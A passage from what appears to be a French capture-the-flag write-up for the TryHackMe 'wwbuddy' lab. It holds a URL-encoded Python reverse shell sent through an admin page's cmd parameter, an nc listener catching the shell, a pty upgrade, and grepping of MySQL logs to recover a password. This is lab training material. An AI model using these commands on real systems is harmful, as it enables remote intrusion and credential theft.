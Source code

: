 On encode le reverse shell.   

On se connect on compte d'henry.   

On lui passe le shell dans la barre d'adresse.   

```text
wwbuddy.thm/admin/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.9.228.66%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.97.202] 35754
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home
jenny
roberto
wwbuddy

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wwbuddy:/var/www/html/admin$ 

```

On voit que nouveau nom qui est jenny.   
On sait que le mot de passe est la date de son anniversaire.   

```bash
www-data@wwbuddy:/var/www/html/admin$ cd /var/log
cd /var/log
www-data@wwbuddy:/var/log$ ls
ls
alternatives.log  cloud-init-output.log  journal    syslog
apache2		  cloud-init.log	 kern.log   tallylog
apt		  dist-upgrade		 landscape  unattended-upgrades
auth.log	  dpkg.log		 lastlog    wtmp
bootstrap.log	  faillog		 lxd
btmp		  installer		 mysql

cd mysql
www-data@wwbuddy:/var/log/mysql$ ls
ls
error.log  general.log

www-data@wwbuddy:/var/log/mysql$ cat general.log | grep password
cat general.log | grep password
2020-07-25T14:41:25.299556Z	    8 Connect	Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.309467Z	    9 Connect	Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.317916Z	   10 Connect	Access denied for user 'root'@'localhost' (using password: NO)
2020-07-25T15:01:40.143115Z	   12 Prepare	SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:01:40.143760Z	   12 Execute	SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
2020-07-25T15:02:00.018975Z	   13 Prepare	SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:02:00.019056Z	   13 Execute	SELECT id, username, password FROM users WHERE username = 'Roberto'
```
